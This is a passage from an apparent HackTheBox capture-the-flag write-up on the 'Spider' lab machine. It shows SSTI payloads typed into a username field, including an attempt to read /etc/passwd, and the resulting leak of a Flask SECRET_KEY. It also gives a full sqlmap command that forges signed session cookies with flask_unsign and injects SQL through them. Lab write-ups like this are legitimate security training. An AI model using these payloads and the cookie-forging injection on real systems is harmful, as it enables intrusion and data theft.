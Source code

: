We can see the username translated to 49, so we confirmed SSTI is possible.

However exploiting this is not as straight forward as it seemed. When we try to create more sofisticated usernames like `"{{'/etc/passwd'|file_excerpt(1,30)}}"@` we quickly realize we have a maximum of 10 characters as a username.

![10_chars_max](images/10_chars_max.png)

Testing only `{7*7}` as a username to get at least two more chars for our payload doesn't work either so with `{{}}` we only have six chars left for our payload.

However the username `{{config}}` reveals the SECRET_KEY: `Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942`
```
<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None,
'SECRET_KEY': 'Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'RATELIMIT_ENABLED': True, 'RATELIMIT_DEFAULTS_PER_METHOD': False, 'RATELIMIT_SWALLOW_ERRORS': False, 'RATELIMIT_HEADERS_ENABLED': False, 'RATELIMIT_STORAGE_URL': 'memory://', 'RATELIMIT_STRATEGY': 'fixed-window', 'RATELIMIT_HEADER_RESET': 'X-RateLimit-Reset', 'RATELIMIT_HEADER_REMAINING': 'X-RateLimit-Remaining', 'RATELIMIT_HEADER_LIMIT': 'X-RateLimit-Limit', 'RATELIMIT_HEADER_RETRY_AFTER': 'Retry-After', 'UPLOAD_FOLDER': 'static/uploads'}>

```

With the SECRET_KEY we can forge new Cookies, however this doesn't help us a lot since we don't know the uuid of a privileged user. But sqlmap finds the uuid to be vulnerable. However we need to do quite a complex query for that:

```
sqlmap http://spider.htb/ --eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')" --cookie="session=*" --delay 1 --dump
```

The `--eval "from flask_unsign import session as s; session = s.sign({'uuid': session}, secret='Sup3rUnpredictableK3yPleas3Leav3mdanfe12332942')"` creates or cookie, using the flask_unsign library in python so make sure to `pip install flask_unsign` before running the sqlmap query. It will then try to inject into the session parameter and forge a cookie with the secret key.
